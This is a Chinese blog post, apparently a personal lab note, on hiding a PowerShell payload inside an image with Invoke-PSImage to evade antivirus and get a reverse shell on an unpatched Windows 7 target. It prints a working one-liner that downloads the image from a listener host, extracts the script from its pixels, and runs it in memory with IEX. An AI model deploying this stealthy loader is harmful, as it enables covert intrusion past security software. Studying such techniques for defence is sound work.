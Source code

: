 ```yaml
---
layout: post
title:  "利用图片隐藏shell并反弹"
subtitle: '攻击载荷隐藏小技巧'
date:   2019-07-03 18:00:00
tags: 工具 免杀
description: '工具 免杀'
color: 'rgb(127,255,170)'
cover: 'https://a111-1255560786.cos.ap-nanjing.myqcloud.com/1208.jpg'
---
```



### 0x01 前言

之前看到jaky大佬的一篇[利用自拍照反弹shell](https://mp.weixin.qq.com/s/HBVHHJYIiJpRFVPWnhnUYQ)，看着还不错，随即跟着学了一手，并水文一篇以记录。



### 0x02 环境

复测环境：

靶机：win7旗舰版未打补丁 安全软件火绒最新版  

监听机：kali  IP：192.168.111.130

利用工具：https://github.com/peewpw/Invoke-PSImage

该工具作用就是将载荷压缩到图片中，将代码隐藏后会返回一串执行指令，该指令是将图片中的代码提取到内存中去执行



### 0x03 过程

<font color=#FF0000>注意：图像的每个像素用于保存一个字节的脚本，因此需要一个像素至少与脚本中的字节一样多的图像</font>



生成一张从web执行的远端图片，脚本改成了弹计算器

![img](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/clipboard.png)

![img](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/clipboard-1607406151144.png)

修改红线部分，图片放在了监听机上，执行以下内容

```powershell
sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://192.168.111.130:8080/clac2.png"));$o=a Byte[] 580;(0..0)|%{foreach($x in(0..579)){$p=$g.GetPixel($x,$_);$o[$_*580+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..7]))
```



冲

![img](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/%E5%9B%BE%E7%89%87%E9%9A%90%E8%97%8F%E6%89%A7%E8%A1%8C.gif)



注：在win7生成的图片win10执行失败